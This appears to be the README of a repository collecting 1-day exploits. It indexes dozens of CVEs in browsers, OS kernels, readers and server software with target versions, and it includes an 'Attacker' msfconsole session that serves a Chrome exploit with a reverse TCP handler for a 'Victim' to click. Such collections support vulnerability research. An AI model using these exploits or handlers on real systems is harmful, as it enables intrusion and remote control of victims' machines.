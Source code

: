 # 1-day exploits
1day exploit repo

## Database
CVE Number | Target | Type | OS | Version | Author 
---------- | -------| ---- | -- | ------- | ------ 
[CVE-2019-5825](windows/browser/chromium/941743/README.md) | Chrome | Browser | Windows | 73.0.3683.86 (64bit) | _Hwiwon Lee_
[CVE-2017-????](linux/browser/chromium/716044/README.md) | Chrome | Browser | Linux | 60.0.3080.5 (64bit) | _Hwiwon Lee_
[CVE-2016-1646](windows/browser/chromium/594574/README.md) | Chrome | Browser | Windows | 49.0.2623.87 (64bit) | _Hwiwon Lee_
[CVE-2017-????](windows/browser/chromium/746946/README.md) | Chrome | Browser | Windows | 59.0.3071.109 (64bit) | _Hwiwon Lee_
[CVE-2018-4314](macos/browser/safari/cve-2018-4314/README.md) | Safari | Browser | macOS | 11.1.2 (64bit) | _Hwiwon Lee_
[CVE-2015-5932](macos/kernel/cve-2015-5932/README.md) | macOS | Kernel | macOS | < 10.11 | _Hwiwon Lee_
[CVE-2019-8646](ios/iMessage/cve-2019-8646/README.md) | iMessage | Messenger | iOS | 12.1.x | _Hwiwon Lee_
[CVE-2016-1961](windows/browser/firefox/cve-2016-1961/README.md) | Firefox | Browser | Windows | < 45 (32bit&64bit) | _Hwiwon Lee_
[CVE-2016-9899](windows/browser/firefox/cve-2016-9899/README.md) | Firefox | Browser | Windows | 49.0 ~ 50.0.2 (32bit&64bit) | _Hwiwon Lee_
[CVE-2019-1458](windows/kernel/CVE-2019-1458/README.md) | win7-10 | Kernel | Windows | 6.1.7601 | _Hwiwon Lee_
[CVE-2020-0796](windows/kernel/CVE-2020-0796/README.md) | win10 1903/1909 | Kernel | Windows | 18363.592 (64bit) | _Hwiwon Lee_
[CVE-2016-3207](windows/browser/ie/20163207/README.md) | IE | Browser | Windows | 11.0.9600.17420(32bit) | _Hyeonhak Kim_
[CVE-2017-0037](windows/browser/ie/20170037/README.md) | IE | Browser | Windows | 11.0.9600.18537(32bit) | _Hyeonhak Kim_
[CVE-2019-9760](windows/FTP/FTPGetter5.97/README.md) | FTPGetter | FTP Client | Windows | 5.97.0.177(64bit) | _Hyeonhak Kim_
[CVE-2016-????](windows/FTP/FTPShell5.24/README.md) | FTPShell | FTP Client | Windows | 5.24(32bit) | _Hyeonhak Kim_
[CVE-2019-0803](windows/kernel/ms19_0803_win32k_privesc/README.md) | win7 x64 SP1 | Kernel | Windows | 6.1.7601 | _Hyeonhak Kim_
[CVE-2018-8639](windows/kernel/ms18_8639_win32k_privesc/README.md) | win7 x32 SP1 | Kernel | Windows | 6.1.7601 | _Hyeonhak Kim_
[CVE-2018-1038](windows/kernel/CVE-2018-1038/README.md) | win7 x64 SP1 | Kernel | Windows | 6.1.7601 | _Hyeonhak Kim_
[CVE-2018-0743](windows/kernel/CVE-2018-0743/README.md) | win10 x64 | Kernel | Windows | 10.0.16179 | _Hyeonhak Kim_
[CVE-2019-0708](windows/kernel/CVE-2019-0708/README.md) | win7 x86 SP1 | Kernel | Windows | 6.1.7601 | _Hyeonhak Kim_
[CVE-2019-5791](windows/browser/chromium/CVE-2019-5791/README.md) | Chrome | Browser | Windows | 72.0.3626 | _Hyeonhak Kim_
[CVE-2019-5782](windows/browser/chromium/CVE-2019-5782/README.md) | Chrome | Browser | Windows | 70.0.3538 | _Hyeonhak Kim_
[CVE-2019-????](linux/browser/chromium/46654/README.md) | Chrome | Browser | Linux | 74.0.3702.0 (64bit) | _Youngjoon Kim_
[CVE-2019-????](linux/browser/chromium/46748/README.md) | Chrome | Browser | Linux | 74.0.3725.0 (64bit) | _Youngjoon Kim_
[CVE-2019-0752](windows/browser/ie/20190752/README.md) | IE | Browser | Windows | 11.379.17763.0 (64bit) | _Youngjoon Kim_
[CVE-2017-15399](windows/browser/chromium/201715399/README.md) | Chrome | Browser | Windows | 62.0.3202.89  | _Youngjoon Kim_
[CVE-2017-5070](windows/browser/chromium/20175070/README.md) | Chrome | Browser | Windows | 58.0.3029.110  | _Youngjoon Kim_
[CVE-2018-17463](windows/browser/chromium/201817463/README.md) | Chrome | Browser | Windows | < 70.0.3538.64  | _Youngjoon Kim_
[crbug 992914](windows/browser/chromium/992914/README.md) | Chrome | Browser | Windows | < 76.0.3809.132  | _Youngjoon Kim_
[CVE-2020-6418](linux/browser/chromium/20206418/README.md) | Chrome | Browser | Linux | < 80.0.3987.122  | _Youngjoon Kim_
[CVE-2017-5375&CVE-2016-1960](windows/browser/firefox/Firefox%2044.0.2%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-1960)/README.md) | Firefox | Browser | Windows | 44.0.2 | _Sungha Park_
[CVE-2017-5375&CVE-2016-2819](windows/browser/firefox/Firefox%2046.0.1%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-2819)/README.md) | Firefox | Browser | Windows | 46.0.1 | _Sungha Park_
[CVE-2017-5375&CVE-2016-9079](windows/browser/firefox/Firefox%2050.0.1%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-9079)/README.md) | Firefox | Browser | Windows | 50.0.1 | _Sungha Park_
[CVE-2017-5415](windows/browser/firefox/Mozilla%20Firefox%20-%20Address%20Bar%20Spoofing/README.md) | Firefox | Browser | Windows | 50.0.1 | _Sungha Park_
[CVE-2019-0541](windows/browser/ie/Microsoft%20Windows%20MSHTML%20Engine%20-%20Edit%20Remote%20Code%20Execution(CVE-2019-0541)/README.md) | ie | Browser | Windows | 8.0.6001.18702| _Sungha Park_
[CVE-2019-9766](windows/windows/player/free_mp3_cd_ripper/README.md) | Free MP3 CD Ripper | player | Windows | 2.6 | _Sungha Park_
[CVE-2019-???(EDB-46279)](windows/player/HTML5%20Video%20Player/README.md) | HTML5 Video Player | player | Windows | 1.2.5 | _Sungha Park_
[CVE-2018-15877](linux/wordpress/README.md) | wordpress | Application | linux | 20161228 and prior | _Sungha Park_
[CVE-2019-8044](windows/PDF_Reader/CVE-2019-8044/README.md) | Adobe Acrobat Reader DC | PDF Reader | Windows | Newest  | _Sungha_Park_
[CVE-2018-11776](linux/apache/CVE-2018-11776/README.md) | Apache Struts | Apache Web Application | Windows,Linux | 2.3<2.3.34 / 2.5<2.5.16 | _Sungha_Park_
[CVE-2018-20250](windows/etc/winrar/README.md) | WinRAR, BANDIZIP, etc | ETC | Windows | <=5.61(WINRAR), <=6.20(BANDIZIP) | _Sungha_Park_
[CVE-2020-0601](windows/etc/CryptoAPI/README.md) | Crypto32.dll | ETC | Windows | Windows 10, Windows Server 2016 and 2019 (before patch jan 14,2020) | _Sungha_Park_
[CVE-2018-4878](windows/flash/20184878/README.md) | Adobe Flash Player | Flash Player | Windows | 28.0.0.137 | _Younggi Park_
[CVE-2018-4990](windows/PDF_Reader/CVE-2018-4990/README.md) | Adobe Acrobat Reader DC | PDF Reader | Windows | 17.00920044, 18.01120038 | _Younggi Park_
[CVE-2018-8120](windows/kernel/CVE-2018-8120/README.md) | win7 x86 SP1 | Kernel | Windows | 6.1.7601 | _Younggi Park_
[CVE-2019-5786](windows/browser/chromium/20195786/README.md) | Chrome | Browser | Windows | 72.0.3626.119 (32bit) | _Younggi Park_
[CVE-2018-4233](macos/browser/safari/CVE-2018-4233/README.md) | Safari | Browser | macos | Safari 11.0.3 | _Younggi Park_
[CVE-2019-1215](windows/kernel/CVE-2019-1215/README.md) | win10 1903 x64 | Kernel | Windows | ws2ifsl 10.0.18362.1 | _Younggi Park_

## Metasploit
[Official Repo](https://github.com/rapid7/metasploit-framework)  
[How to write a browser exploit using BrowserExploitServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-BrowserExploitServer)  
[How to write a browser exploit using HttpServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer)  

## vulncode-db 
Useful vulnerable code db site [demo](https://www.vulncode-db.com/) and [open source](https://github.com/google/vulncode-db)

## Environment Setup
### Chromium
[Downloading old builds of Chrome / Chromium](https://www.chromium.org/getting-involved/download-chromium)
### Internet Explorer
[Downloading old version update of IE](https://www.catalog.update.microsoft.com)

### Acrobat Reader
Downloading old version of Adobe Reader : ftp://ftp.adobe.com/pub/adobe/reader/win

## How to use
### Attacker
```
$ msfconsole
...
[*] Starting persistent handler(s)...
msf5 > use exploit/windows/browser/chrome_v8_oob_access_594574 
msf5 exploit(windows/browser/chrome_v8_oob_access_594574) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Using URL: http://0.0.0.0:8080/B3mDU4Cmr
[*] Local IP: http://127.0.0.1:8080/B3mDU4Cmr
[*] Server started.
```

### Victim
Click the url link :D
